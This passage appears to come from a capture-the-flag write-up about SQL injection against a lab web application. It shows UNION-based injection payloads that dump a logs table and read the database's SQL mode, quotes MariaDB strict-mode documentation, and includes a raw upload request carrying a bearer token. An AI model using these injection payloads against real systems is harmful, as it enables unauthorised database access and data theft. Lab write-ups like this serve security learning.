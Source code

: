 Here we are doing a basic UNION injection where we dump every table with the respective column of the database. We use `concat` to concatenate table columns, and `1337` as a delimiter useful to split the columns returned (typically you would use a string, but we could not find a way of doing it with a string), then we use `group_concat` to return every single row of the table in a single row. Given the name, of the challenge we started immediately by dumping the `access_logs` table:

```python
injection("SELECT group_concat(concat(id,1337,ip,1337,url,1337,method,1337,accessed)) FROM access_logs")
```

One of returned record had this value in the URL column: `/api/filesdownloadall.php?flag=WP{pl34se_r3m0v3_l3gacy_stuff}.php`. This let us download the challenge upload directory of the current logged in user: `var/www/html/uploads/928476593`

### **Black Or White - WP{fr0m_bl4ckb0x_2_wh1t3b0x}**

Again, given the challenge description we looked up SQL modes of the mysql instance of the challenge.

```python
c.get_username("admin238\\'", f"OR 1=1 UNION SELECT 1337,9001,(SELECT @@GLOBAL.sql_mode),420,69,42 --")
```

And got this as a result:

```sql
STRICT_TRANS_TABLES,ERROR_FOR_DIVISION_BY_ZERO,NO_AUTO_CREATE_USER,NO_ENGINE_SUBSTITUTION
```

Then we looked at the [documentation](https://mariadb.com/kb/en/sql-mode/).

> ## Strict Mode
> 
> A mode where at least one of `STRICT_TRANS_TABLES` or `STRICT_ALL_TABLES` is enabled is called *strict mode*.
> 
> With strict mode set (default from [MariaDB 10.2.4](https://mariadb.com/kb/en/mariadb-1024-release-notes/)), statements that modify tables (either transactional for `STRICT_TRANS_TABLES` or all for `STRICT_ALL_TABLES`)
>  will fail, and an error will be returned instead. The IGNORE keyword 
> can be used when strict mode is set to convert the error to a warning.
> 
> With strict mode not set (default in version <= [MariaDB 10.2.3](https://mariadb.com/kb/en/mariadb-1023-release-notes/)),
>  MariaDB will automatically adjust invalid values, for example, 
> truncating strings that are too long, or adjusting numeric values that 
> are out of range, and produce a warning.
> 

In the database there is a files table, and it stores information such as the path of the uploaded files.

This is the request made when uploading files:

```
POST /api/fileupload.php HTTP/1.1
Host: start.wpctf.lan:8806
Accept: application/json, text/plain, */*
Accept-Encoding: gzip, deflate
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjo5Mjg0NzY1OTMsInVzZXIiOiJhZG1pbjczMjEwMzQ3NDciLCJwYXNzIjoiYXNkIiwiZnVsbF9uYW1lIjoiV1B7UjAwdF9TbTF0aH0iLCJncm91cF9pZCI6IjkyODQ3NjU5MyIsInBlcm1pc3Npb25zIjp7InVwbG9hZCI6IjEiLCJsaXN0RmlsZXMiOiIxIiwiZGVsZXRlRmlsZXMiOiIxIiwibGlzdFVzZXJzIjoiMSIsImRvd25sb2FkIjoiMSJ9fQ.uUmYA5y7PMbl3EFMVahlT3A4hsHhi62E-Ef6zIA9BiI
Content-Type: multipart/form-data; boundary=---------------------------31269189394158100819104461333
Content-Length: 46846
```
